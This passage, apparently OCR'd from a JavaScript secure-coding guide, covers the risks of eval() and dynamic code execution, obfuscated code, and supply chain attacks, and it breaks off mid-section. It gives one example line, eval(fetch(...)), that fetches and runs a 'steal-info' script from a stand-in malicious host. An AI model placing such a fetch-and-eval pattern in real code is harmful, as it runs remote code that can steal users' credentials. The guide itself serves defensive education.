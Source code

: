 


### `eval()` and Dynamic Code Execution



-  **Description:** The `eval` function and similar methods (`new Function()`, `setTimeout('code')`, `setInterval('code')`) execute arbitrary code, which attackers can exploit to steal credentials, inject malicious scripts, or run unauthorized commands.



-  **Example:**



```

eval(fetch('https://malicious-site.com/steal-info.js'));

```



-  **How to Stay Safe:** Avoid using `eval()` or any dynamically executed code. Use safer alternatives like `JSON.parse()` or secure function calls.




### Obfuscated or Minified Code



-  **Description:** Attackers often hide malicious payloads in minified or obfuscated code, making it harder to detect harmful behavior.



-  **Example:**



```

var a = "\x6c\x6f\x63\x61\x74\x69\x6f\x6e";

```



-  **How to Stay Safe:** If you encounter obfuscated code, use tools like `js-beautify` or `deobfuscator.io` to inspect it before execution.




### Supply Chain Attacks & Dependency Hijacking



-  **Description:** Attackers publish malicious packages with names similar to popular ones (typosquatting) or inject backdoors into compromised packages.



-  **How to Stay Safe:**
